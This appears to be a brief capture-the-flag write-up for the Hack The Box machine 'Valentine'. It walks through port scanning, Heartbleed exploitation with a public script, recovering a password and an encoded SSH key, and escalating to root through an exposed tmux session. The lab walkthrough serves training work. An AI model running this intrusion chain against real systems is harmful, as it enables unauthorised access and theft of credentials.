


# [Valentine](https://app.hackthebox.com/machines/valentine)

```bash
rustscan 10.10.10.79
```




After knowing, the 22,80,443 ports are open, let's do nmap scan.

```bash
nmap -A -sC -sV -p22,80,443 --script=vuln 10.10.10.79 -Pn
```

We got soo big result. (CVE-2014-0160).


That's the vulnerability called 'Heartbleed'. Let's exploit it.

I find exploit code already.



Let's run it.
```bash
python2 32764.py 10.10.10.79 -p 443
```


Once, we decode this, we know the password.


password: heartbleedbelievethehype


Let's download hype_key file.
```bash
wget https://10.10.10.79/dev/hype_key --no-check-certificate
```

Now, we decode this by using xxd.

```bash
cat hype_key | xxd -r -p
```


We grab RSA key from here.

Then add into id_rsa file and give '600' permissions for this and login.


user.txt


Once, we look at the history command result and paste into shell.


Hola , we are root user.

```bash
tmux -S /.devs/dev_sess
```

root.txt


